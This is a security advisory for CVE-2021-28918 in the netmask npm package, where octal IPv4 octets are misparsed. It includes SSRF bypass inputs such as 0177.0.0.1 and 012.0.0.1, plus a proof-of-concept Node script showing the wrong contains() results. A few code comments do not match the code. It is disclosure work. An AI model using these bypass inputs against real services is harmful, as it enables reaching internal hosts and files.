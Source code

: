 ### Title
netmask npm package - Improper Input Validation in netmask npm package v1.1.0 and below of octal literals results in indeterminate SSRF & RFI vulnerabilities.

### CVE ID
CVE-2021-28918

### CVSS Score
9.1

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

### Internal ID
SICK-2021-011
        
### Vendor
netmask project
        
### Product
netmask

### Product Versions
v1.1.0 and below

### Vulnerability Details

Improper input validation of octal strings in widely used netmask npm package v1.1.0 and below allows unautenticated remote attackers to perform indeterminate SSRF, RFI, and LFI attacks on many of the dependent packages. The netmask npm package incorrectly evaluates individual ipv4 octets that contain octal strings as left-stripped integers, leading to an inordinate attack surface on hundreds of thousands of projects that rely on netmask to filter or evaluate ipv4 block ranges, both inbound and outbound. For example, a remote unauthenticated attacker can request local resources using input data 0177.0.0.1 (127.0.0.1), which netmask evaluates as public IP 177.0.0.1. Contrastingly, a remote authenticated or unauthenticated attacker can input the data 0127.0.0.01 (87.0.0.1) as localhost, yet the input data is a public IP and potentially cause local and remote file inclusion (LFI/RFI). A remote authenticated or unauthenticated attacker can bypass packages that rely on netmask to filter IP address blocks to reach intranets, VPNs, containers, adjacent VPC instances, or LAN hosts using input data such as 012.0.0.1 (10.0.0.1), which netmask evaluates as 12.0.0.1 (public).

### Vendor Response
Fixed in version v2.0.0

### Proof of Concept


```bash
# cd /tmp
mkdir -p netmask_poc/node_modules
cd netmask_poc
npm i netmask@1.0.6

node <<'EOF'

var Netmask = require('netmask').Netmask

var block = new Netmask('31.0.0.0/8');
block.base;                     // 10.0.0.0
block.mask;                     // 255.240.0.0
block.bitmask;                  // 12
block.hostmask;                 // 0.15.255.255
block.broadcast;                // 10.15.255.255
block.size;                     // 1048576
block.first;                    // 10.0.0.1
block.last;                     // 10.15.255.254

console.log(block.contains('#######################'));

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 31.5.5.5 in that block?');
console.log(block.contains('31.5.5.5'));

console.log('is 031.5.5.5 (25.5.5.5) in that block?');
console.log(block.contains('031.5.5.5'));

console.log('is 31.5.5.5 (25.5.5.5) in that block?');
console.log(block.contains('31.5.5.5'));

console.log(block.contains('#######################'));

var block = new Netmask('127.0.0.0/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 127.0.0.2 in that block?');
console.log(block.contains('127.0.0.2'));

console.log('is 0177.0.0.2 (127.0.0.2) in that block?');
console.log(block.contains('0177.0.0.2'));

console.log(block.contains('#######################'));

var block = new Netmask('255.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);


console.log('is 255.255.255.2 in that block?');
console.log(block.contains('255.255.255.2'));

console.log('is 0255.0.0.2 (173.0.0.2) in that block?');
console.log(block.contains('0255.0.0.2'));

console.log(block.contains('#######################'));

var block = new Netmask('10.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 10.5.7.1 in that block?');
console.log(block.contains('10.5.7.1'));

console.log('is 10.0.0.255 in that block?');
console.log(block.contains('012.0.0.255'));

console.log(block.contains('#######################'));

var block = new Netmask('1.0.0.1/8');

console.log(block.first);
console.log('thru');
console.log(block.last);

console.log('is 1.2.3.4 in that block?');
console.log(block.contains('1.2.3.4'));

console.log('is 01.2.3.4 in that block?');
console.log(block.contains('01.2.3.4'));

console.log(block.contains('#######################'));

EOF
```

#### Disclosure Timeline
* **2021-03-16** - Researchers discover vulnerability
* **2021-03-17** - Vendor notified
* **2021-03-17** - CVE requested
* **2021-03-19** - CVE assigned CVE-2021-28918
* **2021-03-28** - Vulnerability published

### Links

[https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-011.md](https://github.com/sickcodes/security/blob/master/advisories/SICK-2021-011.md)

[https://sick.codes/universal-netmask-npm-package-used-by-270000-projects-vulnerable-to-octal-input-data-server-side-request-forgery-remote-file-inclusion-local-file-inclusion-and-more-cve-2021-28918](https://sick.codes/universal-netmask-npm-package-used-by-270000-projects-vulnerable-to-octal-input-data-server-side-request-forgery-remote-file-inclusion-local-file-inclusion-and-more-cve-2021-28918)

[https://sick.codes/sick-2021-011](https://sick.codes/sick-2021-011)

[https://www.npmjs.com/package/netmask](https://www.npmjs.com/package/netmask)

[https://github.com/rs/node-netmask](https://github.com/rs/node-netmask)

### Researchers

Victor Viale: [https://github.com/koroeskohr](https://github.com/koroeskohr) || [https://twitter.com/koroeskohr](https://twitter.com/koroeskohr)

Sick Codes: [https://github.com/sickcodes](https://github.com/sickcodes) || [https://twitter.com/sickcodes](https://twitter.com/sickcodes)

Kelly Kaoudis: [https://github.com/kaoudis](https://github.com/kaoudis) || [https://twitter.com/kaoudis](https://twitter.com/kaoudis)

John Jackson [https://www.twitter.com/johnjhacking](https://www.twitter.com/johnjhacking)

Nick Sahler: [https://github.com/nicksahler](https://github.com/nicksahler) || [https://twitter.com/tensor_bodega](https://twitter.com/tensor_bodega) 

Olivier Poitrey [https://github.com/rs](https://github.com/rs) || [https://twitter.com/olivier_poitrey](https://twitter.com/olivier_poitrey)

#### CVE Links

[https://sick.codes/sick-2021-011](https://sick.codes/sick-2021-011)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28918](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-28918)

[https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-28918](https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-28918)
